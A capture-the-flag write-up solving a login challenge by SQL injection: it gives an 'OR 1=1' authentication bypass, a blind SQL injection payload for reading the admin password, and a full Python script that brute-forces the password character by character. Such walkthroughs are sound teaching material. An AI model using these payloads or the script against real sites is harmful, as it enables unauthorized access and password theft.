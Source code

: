# Login
## Problem
> http://ctfq.sweetduet.info:10080/~q6/

## Solution
### 1. Simple SQL Injection
First, go to the [website](http://ctfq.sweetduet.info:10080/~q6/).  
And type `'OR 1=1 --` to id form then push submit. 

### 2. Read Source Code
You are jumped the source code of the web site.  
So second, you read it.  

Then you may find to be able to blindSQL with following string.
```sql
' OR SUBSTR((SELECT pass FROM user WHERE id="admin"),1,[length of test password])="[test password]"--
```


### 3. Blind SQL
Run following program with python to blind SQL to the site.  
Then you can get the flag.

```python
import requests
import string
import time

# Basic Information
URL = 'http://ctfq.sweetduet.info:10080/~q6/'
SQL = '\' OR SUBSTR((SELECT pass FROM user WHERE id="admin"),1,%d)="%s"--'
ALL_CHARACTER = string.ascii_letters + string.digits + string.punctuation

substr_pass = ''


while True:
    # choose char from all-string
    for char in list(ALL_CHARACTER):
        print(char)

        # make password to test
        test_pass = substr_pass + char

        # send HTTP POST
        response = requests.post(
            URL,
            {
                'id': 'spam',
                'pass': SQL % ( len(substr_pass) + 1, test_pass)
            }
        )

        # if not Login Failed、add chosen character to substr_pass.
        if not '      Login Failed    ' in response.text:
            substr_pass += char
            print('HIT: ' + test_pass)

            break

    # if not hit around a loop, recognition to get the flag
    else:
        print('RESULT: ' + substr_pass)
        break

```
